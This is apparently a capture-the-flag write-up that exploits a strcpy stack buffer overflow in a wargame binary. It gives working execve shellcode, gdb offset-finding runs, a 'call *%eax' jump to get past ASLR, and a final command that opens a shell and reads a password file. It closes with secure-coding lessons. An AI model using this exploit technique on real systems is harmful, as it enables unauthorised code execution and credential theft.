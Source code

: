 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
The return address is the address where execution will jump to after executing the current function.
By writing past the end of `buf`,
we can overwrite the return address,
and thus make the program jump to where we want.

In the previous challenge we made the program jump to the insecure function `run`.
In this program however there is no such easy target to jump to.
On the other hand,
we can bring insecure code inside,
by injecting it into `buf` through the input string.

We could inject what is commonly known as *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article[5], see the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling such program,
there is more work to do,
for example you may have to rewrite some of the assembly instructions in a way to eliminate NULL bytes,
as `strcpy` won't copy anything after it sees the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out the address it was trying to jump to.
We can use this to guess the right location.

Let's run the program in `gdb`,
with a sufficiently long input string that will write beyond the end of `buf`,
over the return address:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s,
the program cannot jump to such address so it crashes.
Let's try a shorter string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks like somewhere in the middle of our `abcd...xyz` sequence.
To find the exact position,
let's check the ASCII codes of these letters:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Wonderful, what next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
Let's check the size of our shellcode:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit,
as you could have a good idea where to jump.
As of today,
thanks to address space layout randomization (ASLR) used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

Luckily,
there are other interesting details that we can use:

- On 32-bit x86 processors,
  a function that returns a pointer value places its result in register `%eax`.

- `strcpy` is the last call in the function `fun`,
  so its returned value remains in `%eax` when the function returns.

- There are `call *%eax` instructions inside the program,
  which are suitable jump targets,
  as they execute the code at the address stored in register `%eax`.

That is,
we can put our shellcode at the start of `buf`,
then when `strcpy` returns,
the address of `buf` will be saved in `%eax`,
and so if we overwrite the return address with any of the `call *%eax` instructions,
then our shellcode at the start of `buf` will get executed.

Find the addresses of `call *%eax` instructions using `objdump`:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to input length.

